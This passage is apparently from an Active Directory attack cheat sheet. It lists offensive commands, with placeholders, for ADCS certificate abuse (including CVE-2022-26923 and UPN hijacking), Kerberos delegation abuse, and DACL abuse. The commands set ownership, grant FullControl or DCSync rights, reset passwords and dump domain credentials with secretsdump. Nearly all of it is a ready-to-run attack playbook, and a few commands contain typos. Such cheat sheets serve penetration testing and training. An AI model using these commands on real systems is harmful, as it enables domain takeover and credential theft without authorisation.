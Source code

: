             *   `certipy-ad template [AUTH_STRING] -template [TEMPLATE] -target [DC_HOSTNAME] -dc-ip [DC_IP]`
            *   `certipy-ad req      [AUTH_STRING] -ca [CA_NAME] -target [DC_HOSTNAME] -dc-ip [DC_IP] -template [TEMPLATE] -upn Administrator@[DOMAIN] -ns [DC_IP] -dns [DC_IP]`
            *   `certipy-ad auth -pfx [PFX_FILE] -dc-ip [DC_IP]`
        *   UPN Hijacking
            *   `certipy-ad account update [AUTH_STRING] -user [VULN_USER] -upn "Administrator" -dc-ip [DC_IP]`
            *   `certipy-ad req  [TARGET_AUTH_STRING] -target [DC_IP] -ca [CA_NAME] -template [TEMPLATE] -dc-ip [DC_IP]`
            *   `certipy-ad account update [AUTH_STRING] -user [VULN_USER] -upn "[VULN_USER]@[DOMAIN]" -dc-ip [DC_IP]`
            *   `certipy-ad auth -pfx      [PFX_FILE] -domain [DOMAIN] -dc-ip [DC_IP]`
        *   CVE-2022-26923
            *   `certipy account create [AUTH_STRING] -user [USER_TO_CREATE] -dns [DC_FQDN] -dc-ip [DC_IP]`
            *   `certipy req            [AUTH_STRING] -ca   [CA_NAME] -template [TEMPLATE]`
            *   `certipy auth -pfx      [OUTPUT.pfx] -dc-ip [DC_IP]`
            *   `secretsdump.py         [DOMAIN]/[DC_COMPUTER_NAME] -hashes [DC_COMPUTER_HASH]`
    *   [Delegation Abuse](https://www.thehacker.recipes/ad/movement/kerberos/delegations/)
        *   Unconstrained
            *   `nxc ldap [DC_IP] [AUTH_STRING] --trusted-for-delegation`
            *   `Invoke-Rubeus -Command "dump /nowrap"`
            *   `Invoke-Rubeus -Command "monitor /monitorinterval:10 /targetuser:dc1$ /nowrap"`
        *   Constrained
            *   `nxc ldap [DC_IP] [AUTH_STRING] --find-delegation`
            *   `getST.py [AUTH_STRING] -dc-ip [DC_IP] -spn [TRUSTED_SPN] -impersonate Administrator`
            *   [Without Protocol Transition](https://www.thehacker.recipes/ad/movement/kerberos/delegations/constrained)
        *   Resource Delegation
            *   `nxc ldap [DC_IP] [AUTH_STRING] --find-delegation`
            *   Computer Account
                *   `bloodyAD --host "[DC_IP]" -d "[DOMAIN]" [AUTH_STRING] add computer "FAKE$" "password123"`
                *   `nxc smb [DC_IP] -u "FAKE$" -p password123 --delegate Administrator --self [CREDENTIAL_DUMPING_FLAGS]`
            *   User Account
                *   `rbcd.py [AUTH_STRING] -delegate-from '[USER]' -delegate-to '[DC_FQDN]$' -dc-ip '[DC_IP]' -action 'write'`
                *   `nxc smb [DC_IP] -u [USER] -p/H [PASS/HASH] --delegate Administrator [CREDENTIAL_DUMPING_FLAGS]`
    *   [DACL Abuse](https://www.thehacker.recipes/ad/movement/dacl/)
        *   Enumeration
            *   `bloodhound-python -u [USER] -p [PASS] [--hashes HASH] -ns [DC_IP] -d [DOMAIN] -c all --zip [--dns-tcp]`
            *   Errors                          → Select Individual Collection Methods / Attempt Blind Exploitation
            *   Mark Owned Users → Check Outbound Controls / All Shortest Paths → Exploit Privilege
        *   Exploitation
            *   Targeted Roasting
                *   `bloodyAD --host "[DC_IP]" -d "[DOMAIN]" [AUTH_STRING] add uac [USER] -f DONT_REQ_PREAUTH`
                *   `targetedKerberoast.py [AUTH_STRING] -dc-ip [DC_IP] -d [DOMAIN]`
            *   Set Ownership
                *   `bloodyAD --host "[DC_IP]" -d "[DOMAIN]" [AUTH_STRING] set owner "[OBJECT]" "[USER]"`
            *   Set GenericAll / FullControl
                *   `bloodyAD --host "[DC_IP]" -d "[DOMAIN]" [AUTH_STRING] add genericall "[OBJECT]" “[USER]”`
                *   `dacledit.py -action 'write' -rights 'FullControl' -principal '[USER] -target '[OBJECT]' [AUTH_STRING]`
            *   Shadow Hash Steal 
                *   `certipy-ad shadow auto [AUTH_STRING] -account "[TARGET_USER]" -dc-ip [DC_IP]`
            *   Password Reset
                *   `bloodyAD --host "[DC_IP]" -d "[DOMAIN]" [AUTH_STRING] set password "[TARGET_USER]" "[PASS]"`
            *   Add Group Member
                *   `bloodyAD --host "[DC_IP]" -d "[DOMAIN]" [AUTH_STRING] add groupMember "[GROUP]" “[USER]”`
            *   Set DCSync
                *   `bloodyAD --host "[DC_IP]" -d "[DOMAIN]" [AUTH_STRING] add dcsync "[USER]"`
                *   `secretsdumpy.py [AUTH_STRING]` → On DC
            *   GPO Escalation